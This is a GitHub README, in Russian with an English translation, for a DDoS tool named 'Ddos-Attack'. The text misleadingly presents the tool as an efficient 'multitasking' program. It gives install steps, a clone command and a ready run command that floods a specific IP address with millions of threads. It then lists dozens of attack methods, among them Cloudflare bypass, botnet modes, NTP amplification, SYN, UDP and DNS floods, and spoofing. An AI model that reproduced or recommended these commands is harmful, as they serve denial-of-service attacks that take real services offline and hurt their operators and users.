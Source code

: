 # Ddos Attack 

termux kali linux DDOS L7
🚀 Привет, сообщество GitHub! 🚀

Рад представить вам мой последний проект - программу, которая выполняет многозадачные операции с учетом эффективности на первом месте! 🎯

Основные особенности проекта:
📌 Многозадачность: Моя программа способна обрабатывать множество задач одновременно, что позволяет вам более эффективно управлять ресурсами.
💻 Максимальное использование ЦПУ и оперативной памяти: Я максимизировал вычислительную мощность, чтобы обеспечить вам скорость и производительность. 🚄
🌐 Минимальное потребление интернет-трафика: Моя программа снижает нагрузку на вашу сеть, позволяя вам экономить драгоценный интернет-трафик.

Для запуска программы, сначала убедитесь, что у вас установлены необходимые библиотеки и пакеты. Выполните следующие команды в вашем терминале для их установки:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/SUBUR78990/Ddos-Attack.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

```
Доступные методы 'GET', 'POST', 'HEAD', 'HTTP-SYN', 'HTTP-SYN-TPC', 'OVH', 'OVH BOT', 'DGB', 'AVB', 'CFBUAM', 'BYPASS', 'CFB', 'GSB', 'uambypass', 'BOTNET_V1','BOTNET_V2', 'SYN', 'AMP', 'socks_cflow', 'TCP_ATTACK', 'CFSOC', 'BOMB', 'ovh2', 'STRESS', 'Connection', 'TLSv2', 'cc', 'ntp_mem','ICMPFlood','UDPFlood','udp_flood','attackSKY','RHEX','NULL','COOKIES','Launchspoof','attackbypass','LaunchCFPRO','dgb_solver','http_flood','PPS','dns_flood','BOT_V1','https_spoof','KILLER'
```

Я уже не могу дождаться, когда вы попробуете эту программу и поделитесь своими впечатлениями. Приглашаю вас внести свой вклад и присоединиться к этому захватывающему проекту! 💪

🚀 Hello, GitHub community! 🚀

I'm excited to introduce my latest project - a program that performs multitasking operations with efficiency as a top priority! 🎯

Key features of the project:
📌 Multitasking: My program is capable of handling multiple tasks simultaneously, allowing you to manage resources more effectively.
💻 Maximum CPU and memory utilization: I've maximized computational power to provide you with speed and performance. 🚄
🌐 Minimal internet traffic consumption: My program reduces the load on your network, helping you save precious internet bandwidth.

To run the program, first ensure that you have the required libraries and packages installed. Execute the following commands in your terminal to install them:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/SUBUR78990/Ddos-Attack.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

Some other packages, such as socks, ipaddress, and ntplib, may already be installed as they are often part of the standard Python library.

After installing all the necessary dependencies, you can run the program using the following command

```
Available methods include 'GET,' 'POST,' 'HEAD,' 'HTTP-SYN,' 'HTTP-SYN-TPC,' 'OVH,' 'OVH BOT,' 'DGB,' 'AVB,' 'CFBUAM,' 'BYPASS,' 'CFB,' 'GSB,' 'uambypass,' 'BOTNET_V1,' 'BOTNET_V2,' 'SYN,' 'AMP,' 'socks_cflow,' 'TCP_ATTACK,' 'CFSOC,' 'BOMB,' 'ovh2,' 'STRESS,' 'Connection,' 'TLSv2,' 'cc,' 'ntp_mem,' 'ICMPFlood,' 'UDPFlood,' 'udp_flood,' 'attackSKY,' 'RHEX,' 'NULL,' 'COOKIES,' 'Launchspoof,' 'attackbypass,' 'LaunchCFPRO,' 'dgb_solver,' 'http_flood,' 'PPS,' 'dns_flood,' 'BOT_V1,' 'https_spoof,' 'KILLER.'
```

I can't wait for you to try out this program and share your feedback. I invite you to contribute and be a part of this exciting project! 💪

thanks to FBNonaMe
